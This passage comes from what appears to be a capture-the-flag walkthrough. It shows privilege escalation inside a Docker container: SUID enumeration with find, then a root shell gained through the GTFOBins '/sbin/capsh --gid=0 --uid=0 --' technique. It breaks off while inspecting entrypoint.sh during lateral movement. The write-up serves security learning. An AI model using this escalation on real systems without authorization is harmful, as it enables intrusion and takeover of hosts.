That was fast and easy!

## Privilege escalation (1)

After enumerating different directories and files, nothing interesting pops up. The only think to note is that we are within a `docker` container as indicated by the `/.dockerenv` file, and it also apparent from our hostname, i.e., `www-data@50bca5e748b0`:

```bash
www-data@50bca5e748b0:/var/www/html$ ls -la /
total 88
drwxr-xr-x   1 root root 4096 Mar 21  2023 .
drwxr-xr-x   1 root root 4096 Mar 21  2023 ..
-rwxr-xr-x   1 root root    0 Mar 21  2023 .dockerenv
drwxr-xr-x   1 root root 4096 Mar 22  2023 bin
```

We can check if there is anything interesting that can be run with elevated privs:

```bash
www-data@50bca5e748b0:/var/www/html$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/su
```

There is the binary `capsh` which stands out. Doing a quick search on [GTFOBins](https://gtfobins.github.io/gtfobins/capsh/#suid) we get this:

![](gtfobins.png){: .normal width="60%"}

Let's follow GFTO's guidance:

```bash
www-data@50bca5e748b0:/var/www$ /sbin/capsh --gid=0 --uid=0 --
/sbin/capsh --gid=0 --uid=0 --
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

And we got root...but no flag yet as we are still in a containerized shell!

## Lateral movement

When listing the files in the root directory (`/`), we see a script called `entrypoint.sh`:

```bash
ls -l
total 76
drwxr-xr-x   1 root root 4096 Mar 22  2023 bin
drwxr-xr-x   2 root root 4096 Mar 22  2023 boot
drwxr-xr-x   5 root root  340 Jan 25 14:34 dev
-rw-r--r--   1 root root  648 Jan  5  2023 entrypoint.sh
<SNIP>

cat entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
```